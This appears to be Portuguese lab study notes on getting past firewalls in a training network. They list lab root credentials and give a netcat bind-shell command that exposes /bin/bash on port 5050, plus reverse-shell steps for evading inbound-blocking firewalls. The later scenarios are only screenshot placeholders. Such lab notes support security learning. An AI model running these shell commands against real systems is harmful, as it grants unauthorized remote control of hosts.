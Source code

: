
## Informacoes

```
Acesso via SSH conectado a VPN

IP: 172.16.1.5
Usuario: root
Senha: root

Local das regras do firewall:
/home/msfadmin/firewall/
```

<h2 align="center">Cenario sem firewall</h2>
Basicamente tomamos o acesso bindando uma shell , uma vez que o servidor nao tem nenhuma protecao.

``nc -vnlp 5050 -e /bin/bash``

Na maquina atacante basta conectarmos a essa porta

``nc -vn <IPADDRESS DO SERVIDOR> 5050

<h2 align="center">Cenario Firewall Basico</h2>

![[Screenshot 2024-03-22 12-11-37.png]]

Para atacarmos um servidor com um firewall configurado como basico devemos ver quais portas estao aberta e fechadas , e atraves das portas fechadas vamos abri-la para fazermos nossa bind shell.



<h2 align="center">Cenario Firewall 3 </h2>
![[Screenshot 2024-03-22 16-10-04.png]]
Neste caso , o Firewall esta configurado para recusar TODO tipo de entrada para o servidor , entao como podemos bypassar o firewall? Simples , com Reverse Shell podemos fazer isso. Assim que ganhamos acesso ao servidor basta na nossa maquina (atacante) abrirmos uma porta de conexao como "5050" e atraves do servidor conectarmos com essa nossa maquina atraves desta porta aberta enviando o shell do servidor.



<h2 align="center"> Firewall Fail Cenario 4 </h2>


![[Screenshot 2024-03-22 16-33-13.png]]

![[Screenshot 2024-03-22 16-39-39.png]]